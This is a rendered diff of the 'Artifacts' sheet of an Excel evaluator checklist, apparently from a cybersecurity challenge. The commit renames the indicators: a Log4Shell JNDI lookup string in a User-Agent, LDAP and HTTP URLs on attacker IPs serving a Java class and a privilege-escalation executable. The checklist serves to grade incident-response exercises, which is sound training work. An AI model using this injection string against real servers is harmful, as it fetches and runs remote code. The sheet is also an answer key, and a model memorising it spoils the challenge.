

Before and after one commit to CyberSenpaii/CyberChallenge, an Excel workbook: CyberChallengeEvaluatorChecklist.xlsx, sheet Artifacts, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
ReverseShell -> Togepi & Updated Eval Checklist

```diff
--- a/CyberChallengeEvaluatorChecklist.xlsx (sheet Artifacts)
+++ b/CyberChallengeEvaluatorChecklist.xlsx (sheet Artifacts)
-C21 (Value / Details): Malformed User-Agent: ${jndi:ldap://94.249.192.1:1387/C} (name change)
+C21 (Value / Details): Malformed User-Agent: ${jndi:ldap://94.249.192.1:1387/Togepi}
-C21:C24 fill: #FF0000
+C21:C24 fill: #FFC000
-C22 (Value / Details): http://94.249.192.1:1337/C.class (name change)
+C22 (Value / Details): http://94.249.192.1:1337/Togepi.class
-C23 (Value / Details): http://94.249.192.5:8000/JuicyPotato.exe (name change)
+C23 (Value / Details): http://94.249.192.5:8000/zapdos.exe
-C24 (Value / Details): ldap://94.249.192.1:1387/C (name change)
+C24 (Value / Details): ldap://94.249.192.1:1387/Togepi
```
Also changed, not shown: 2 other files.
